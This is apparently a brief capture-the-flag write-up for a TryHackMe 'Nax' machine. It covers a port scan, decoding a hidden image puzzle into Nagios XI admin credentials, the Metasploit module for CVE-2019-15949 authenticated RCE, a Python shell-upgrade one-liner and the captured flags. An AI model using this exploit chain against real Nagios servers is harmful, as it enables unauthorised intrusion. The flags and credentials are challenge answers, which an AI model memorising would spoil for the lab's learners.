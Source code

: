# Nax 

> Ayush Panwar | 09-july-2021

# My IP : 10.17.6.109

# Target IP : 10.10.87.209


# rustscan 

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
25/tcp   open  smtp    syn-ack
80/tcp   open  http    syn-ack
389/tcp  open  ldap    syn-ack
443/tcp  open  https   syn-ack
5667/tcp open  unknown syn-ack

# port 80

source code has 

<! --/nagiosxi/ --> 

Welcome to elements.
Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr

47 80 73 51 84 46 80 78 103
/PI3T.PNg

 ---> download image
        https://convertio.co/png-ppm/
        https://www.bertnase.de/npiet/npiet-execute.php
        nagiosadmin%n3p3UQ&9BjLp4$7uhWdY

 /nagiosxi/

 directory contains NagiOS login panel
 default user name: nagiosadmin , password: PASSW0RD

nagios xi 5.5.6

CVE-2019-15949
use exploit/linux/http/nagios_xi_authenticated_rce

root flag 
THM{c89b2e39c83067503a6508b21ed6e962}

python -c 'import pty;pty.spawn("/bin/bash")'

user.txt
THM{84b17add1d72a9f2e99c33bc568ae0f1}
